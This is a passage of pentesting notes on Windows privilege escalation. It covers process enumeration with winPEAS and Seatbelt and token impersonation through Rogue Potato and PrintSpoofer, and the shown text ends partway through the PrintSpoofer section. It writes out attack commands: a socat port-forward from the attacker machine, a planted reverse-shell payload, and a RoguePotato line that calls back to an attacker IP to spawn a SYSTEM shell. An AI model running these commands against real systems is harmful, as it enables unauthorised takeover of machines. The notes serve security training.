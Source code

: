 Check all running programs.
```powershell
tasklist /V
```

Check for non-standard processes.
```powershell
seatbelt.exe NonstandardProcesses
winPEASany.exe quiet procesinfo
```

When an interesting program/process is found, use `exploit-db` to search for a corresponding exploit.

## Token Impersonation
There are different potato exploits used to escalate privileges from a service account to SYSTEM, the following link explains each of them.
> https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html

`Service accounts` can be used to escalate privileges if either the `SeImpersonate` or `SeAssignPrimaryToken` privileges are enabled. These privileges allow the service account to impersonate the access tokens of other users, including the SYSTEM user.

### Rogue Potato
This is a complicated exploit, check the link above for information regarding rogue potato.

Check the privileges on the service account.
```powershell
whoami /priv
```

Use `socat` on the attacker machine to port forward `port 135` to `port 9999` on Windows.
```bash
sudo socat tcp-listen:135,reuseaddr,fork tcp:[target ip]:9999
```

Make sure a reverse shell payload is on the target Windows machine and start a listener on the attacker machine.

While on the Service Account, run `RoguePotato.exe` to spawn a SYSTEM shell.
```powershell
C:\PrivEsc\RoguePotato.exe -r [attacker ip] -e "C:\PrivEsc\reverse.exe" -l 9999
```

### PrintSpoofer
> https://github.com/itm4n/PrintSpoofer

> https://github.com/dievus/printspoofer

The `Print Spooler` service can be used to escalate privileges by executing commands as the SYSTEM user.

Check the privileges on the service account.
```powershell
whoami /priv
```
